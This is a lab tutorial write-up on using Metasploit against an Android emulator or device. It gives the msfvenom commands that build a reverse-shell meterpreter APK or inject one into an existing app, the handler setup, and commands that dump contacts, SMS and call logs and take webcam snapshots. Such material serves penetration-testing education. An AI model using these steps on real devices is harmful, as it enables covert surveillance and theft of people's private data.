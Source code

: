 # Metasploit For Android

## DESCRIPTION

The Metasploit Project is a computer security project that provides information about security vulnerabilities and aids in penetration testing. It is owned by Boston, Massachusetts-based security company Rapid7.

Its best-known sub-project is the open source Metasploit Framework, a tool for developing and executing exploit code against a remote target machine.

## PREREQUISITES

1. Metasploit

2. adb(Android debug bridge)

3. Genymotion/Android device

## Exploitation to get an android reverse shell
Connect to the remote target device(genymotion/android) using adb

![](https://github.com/v1ns3c/Write-ups/blob/b8eb5b3375fe3ebeb7c3236309f3b684487479ba/Images/Documentations/Metasploit_for_Android/0_1.jpeg)

## 1) Steps to generate an apk with the reverse_tcp payload
Go to ‘opt/metasploit-framework/bin’ and enter the following command to generate an apk

$ ./msfvenom -p android/meterpreter/reverse_tcp LHOST=<localhost ip> LPORT=4444 -o <destination path/test.apk>

![](https://github.com/v1ns3c/Write-ups/blob/efa9b7c48ef35f5b35c27813c16c9c08a0e2a4ed/Images/Documentations/Metasploit_for_Android/1.jpg)
![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/2.png)

Install the apk generated on the target device(genymotion/android)

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/3.jpg)
![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/4.png)

Go to ‘opt/metasploit-framework/bin’ and follow the steps to get the reverse shell

$ ./msfconsole

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/5.jpg)

$ use exploit/multi/handler

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/6.png)


$ set payload android/meterpreter/reverse_tcp

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/7.png)

$ show options

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/8.png)

$ set LHOST [localhost ip]

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/9.png)

$ exploit ‘or’ run

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/10.png)

Click on the test.apk application in the remote target device(genymotion/android) to get the reverse shell

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/11.png)

$ help ‘or’ ?

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/12.png)

$ dump_contacts

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/13.png)

$ dump_sms

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/14.png)

$ dump_calllog

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/15.png)

Go to the ‘metasploit-framework’ folder to get the dumps

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/16.jpg)

$ cat [calllog.txt]

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/17.jpg)

$ cat [contacts.txt]

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/18.jpg)

$ cat [sms.txt]

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/19.jpg)

Commands for webcam

$ webcam_list

$ webcam_snap 1 ‘or’ 2

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/20.jpg)

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/21.jpg)

2) Steps to inject reverse_tcp payload in an existing app(diva-beta.apk)

Go to ‘opt/metasploit-framework/bin’ and enter the following command

$ ./msfvenom -x <apk path/apkname.apk> -p android/meterpreter/reverse_tcp LHOST=<localhost ip> LPORT=4444 -o <destination path/test.apk>

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/22.jpg)

Install the app in the device and repeat the msfconsole steps as shown earlier to get the reverse shell.

## Extra Commands for metasploit

$ show exploits- (Get all exploits till date)

$ search <any random keyword>

(ex- search android- to get all exploits related to android)

$ info <exploit>

### Thanks for reading!





